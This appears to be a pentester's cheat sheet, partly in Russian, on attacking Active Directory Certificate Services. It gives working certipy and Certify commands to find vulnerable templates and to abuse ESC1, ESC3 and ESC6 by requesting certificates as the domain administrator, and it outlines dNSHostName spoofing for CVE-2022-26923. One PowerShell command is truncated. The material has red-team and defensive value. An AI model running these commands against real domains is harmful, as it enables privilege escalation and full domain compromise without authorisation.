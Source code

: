 # AD CS

{% embed url="https://xakep.ru/2022/10/14/active-directory-privesc/" %}

{% embed url="https://hadess.io/pwning-the-domain-ad-cs/" %}

{% embed url="https://docs.google.com/spreadsheets/d/1E5SDC5cwXWz36rPP_TXhhAvTvqz2RGnMYXieu4ZHx64/edit?gid=0#gid=0" %}

<figure><img src="../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

To **find vulnerable certificate templates** you can run:

```bash
Certify.exe find /vulnerable
certipy find -username john@corp.local -password Passw0rd -dc-ip 172.16.126.128

# quickly spot vulnerable elements
certipy find -u 'user@domain.local' -p 'password' -dc-ip 'DC_IP' -vulnerable -stdout
```

### IF SSL ERROR

`-scheme ldap`



Шаб­лоны сер­тифика­тов хра­нят­ся в сле­дующем кон­тей­нере:

`CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=contoso,DC=com`

Со­ответс­твен­но, получить шаб­лоны мож­но при помощи сле­дующей коман­ды PowerShell, исполь­зуя модуль AD:

`PS > Get-ADObject -SearchBase "CN=Certificate Templates,CN=Public Key Services,CN=`



### Certipy + BH

```bash
wget -O ~/.config/bloodhound/customqueries.json https://raw.githubusercontent.com/ly4k/Certipy/main/customqueries.json
```

```bash
$ certipy find 'contoso.com/Kent.Jill:P@ssw0rd'@DC01.contoso.com
```



### Modifiable SAN. ESC1

Это ата­ка осно­выва­ется на изме­нении парамет­ра SAN, который поз­воля­ет ука­зать аль­тер­натив­ное имя поль­зовате­ля. Это поз­волит нам выпус­тить сер­тификат на дру­гого поль­зовате­ля, даже адми­нис­тра­тора домена. Что­бы ата­ка прош­ла успешно, шаб­лон сер­тифика­та дол­жен иметь уста­нов­ленный флаг `ENROLLEE_SUPPLIES_SUBJECT`.

```bash
$ certipy req 'contoso.com/Kent.Jill:P@ssw0rd'@DC01.contoso.com -dc-ip 10.11.1.184 -ca CA-contoso -template "1" -alt "administrator@contoso.com"
```



### Any or None Purpose Attack. ESC2

Ес­ли в шаб­лоне сер­тифика­та ука­зан EKU любого наз­начения или вооб­ще отсутс­тву­ет EKU, сер­тификат мож­но исполь­зовать для чего угод­но. Им мож­но зло­упот­реблять, как ESC3, нап­ример исполь­зовать сер­тификат в качес­тве тре­бова­ния для зап­роса дру­гого сер­тифика­та от име­ни любого поль­зовате­ля.



### Enrollment Agent. ESC3

В [до­кумен­тации Microsoft](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-cersod/97f47d4c-2901-41fa-9616-96b94e1b5435) ука­зано, что EKU Certificate Request Agent может исполь­зовать­ся, что­бы выдать себя за дру­гого поль­зовате­ля, и поз­воля­ет выпус­тить сер­тификат, который может быть исполь­зован для сов­мес­тной под­писи зап­росов от име­ни любого поль­зовате­ля для любого шаб­лона.

```bash
$ certipy req 'contoso.com/Kent.Jill:P@ssw0rd'@DC01.contoso.com -ca CA-contoso -template Agent
```

Пос­ле того как мы получи­ли обыч­ного поль­зовате­ля, зап­росим сер­тификат, пред­ста­вив­шись дру­гим поль­зовате­лем.

```bash
$ certipy req 'contoso.com/Kent.Jill:P@ssw0rd'@DC01.contoso.com -ca CA-contoso -template User -on-behalf-of 'contoso\Administrator' -pfx kent.jill.pfx
```



### **(EDITF\_ATTRIBUTESUBJECTALTNAME2). ESC6**

`EDITF_ATTRIBUTESUBJECTALTNAME2` Этот флаг поз­воля­ет ука­зать про­изволь­ный SAN (Subject Alternative Name) для всех сер­тифика­тов, нес­мотря на кон­фигура­цию шаб­лона сер­тифика­та.

```bash
$ certipy req 'contoso.com/Kent.Jill:P@ssw0rd'@DC01.contoso.com -template <Любой шаблон> -ca CA-contoso -alt administrator@contoso.com
```



### dNSHostName Spoofing

Пол­ный флоу ата­ки выг­лядит сле­дующим обра­зом:

1. Соз­дание компь­юте­ра в домене с `dNSHostName`, соот­ветс­тву­ющим DNS-име­ни кон­трол­лера домена.
2. За­мена SPN.
3. Зап­рос сер­тифика­та для компь­юте­ра.

**как про­верить, уяз­вим ли кон­трол­лер домена к CVE-2022-26923? Глав­ным приз­наком уяз­вимос­ти слу­жит наличие SID в отве­те на зап­рос сер­тифика­та. Если он есть — патч в сис­теме при­сутс­тву­ет, если нет, то пат­ча тоже нет.**
